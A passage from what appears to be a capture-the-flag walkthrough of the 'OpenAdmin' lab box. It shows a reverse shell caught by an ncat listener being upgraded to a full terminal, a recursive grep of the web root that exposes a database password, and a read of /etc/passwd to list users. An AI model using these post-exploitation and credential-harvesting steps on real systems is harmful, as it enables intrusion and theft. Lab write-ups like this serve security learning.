 I'll threat my terminal so I could then do `CTRL + C` and it won't broke.

```bash
www-data@openadmin:/opt/ona/www$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@openadmin:/opt/ona/www$ ^Z
❯ stty raw -echo; fg
[1]  + continued  ncat -lvnp 80
                               reset xterm

www-data@openadmin:/opt/ona/www$ export TERM=xterm
www-data@openadmin:/opt/ona/www$ export SHELL=bash
```

Looking for interesting files in the folder we are, we see that there are so much places to look.

```bash
www-data@openadmin:/opt/ona/www$ ls
config
images
local
modules
workspace_plugins
config_dnld.php
include
login.php
plugins
dcm.php
index.php
logout.php
winc
```

So, instead of going one by one, I'll just try to get a password doing the following.

```bash
www-data@openadmin:/opt/ona/www$ grep -ri pass

dcm.php:// If no user name is passed in then use dcm.pl as the login name
dcm.php:// be careful as this currently does not require a password.
local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
winc/display_domain_server.inc.php:    // It expects to be passed the domain name as domain= to the module
winc/app_plugin_list.inc.php://     call is made to display_list(), this time passing a search
```

So we got a password `'db_passwd' => 'n1nj4W4rri0R!'`

```bash
www-data@openadmin:/opt/ona/www$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
